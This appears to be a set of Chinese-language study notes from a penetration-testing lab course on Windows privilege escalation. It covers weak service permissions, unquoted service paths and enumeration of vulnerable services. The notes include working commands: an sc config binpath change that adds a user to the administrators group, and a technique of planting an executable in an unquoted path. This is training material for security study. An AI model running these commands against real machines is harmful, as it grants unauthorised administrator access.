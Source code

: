 >看到UTHORITY\Authenticated Users有SERVICE_ALL_ACCESS就是大拇指
```cmd
C:\htb> accesschk.exe /accepteula -quvcw WindscribeService
 
Accesschk v6.13 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2020 Mark Russinovich
Sysinternals - www.sysinternals.com
 
WindscribeService
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
```
### 修改binpath內容
```cmd
sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
```
### 重啟服務
```cmd
sc stop WindscribeService
sc start WindscribeService
```
## Unquoted Service Path
>[!warning ] 小節重點
>中間有小空格的程式
- 例如
```shell
C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe
```
### 搜尋指令
``` powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```
```cmd
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

製造出 `C:\Program Files (x86)\System.exe`就有機會提權
## Vulnerable Services
>[!warning ] 小節重點
>常見的考法，咧舉出來後，利用服務名稱去google。
### 列舉手法
- 所有安裝的程式
```cmd
wmic product get name
```
- 列舉Listen Port
```cmd
netstat -ano | findstr 6064
```
- 檢查porcess id
```powershell
get-process -Id 3324
```
- 檢查 Running Service
```powershell
get-service | ? {$_.DisplayName -like 'Druva*'}
```